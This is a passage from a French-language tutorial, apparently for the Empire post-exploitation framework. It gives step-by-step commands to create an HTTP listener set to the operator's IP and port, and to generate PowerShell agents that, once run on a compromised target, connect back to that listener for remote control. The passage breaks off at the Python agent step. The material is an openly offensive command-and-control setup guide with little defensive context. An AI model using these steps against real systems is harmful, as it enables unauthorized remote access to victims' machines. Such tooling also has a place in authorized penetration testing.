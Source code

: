 ***

#### 2. Créer et Configurer un Listener

Les listeners sont utilisés pour accepter les connexions des agents sur les systèmes compromis.

1. **Afficher les options de listener disponibles** :
   *   Commande :

       ```bash
       listeners
       ```
   * **Explication** : Affiche les listeners actifs et disponibles.
2. **Créer un listener** :
   *   Commande :

       ```bash
       uselistener http
       ```
   * **Explication** : Utilise un listener basé sur HTTP.
3. **Configurer les paramètres du listener** :
   *   Tapez :

       ```bash
       set Host http://<your-ip>:<port>
       ```

       Remplacez `<your-ip>` par votre adresse IP et `<port>` par le port désiré.
4. **Démarrer le listener** :
   *   Commande :

       ```bash
       execute
       ```
   * **Explication** : Lance le listener pour accepter les connexions des agents.

***

#### 3. Générer un Agent

Un **agent** est un script qui, une fois exécuté sur un système cible, établit une connexion avec le listener.

1. **Créer un agent PowerShell (exemple)** :
   *   Commande :

       ```bash
       usestager windows/launcher_bat
       ```
   *   Configurez les options :

       ```bash
       set Listener <listener_name>
       execute
       ```
   * **Explication** : Génère un script PowerShell prêt à être exécuté sur le système cible.
2. **Générer un agent Python (exemple)** :
   *   Commande :
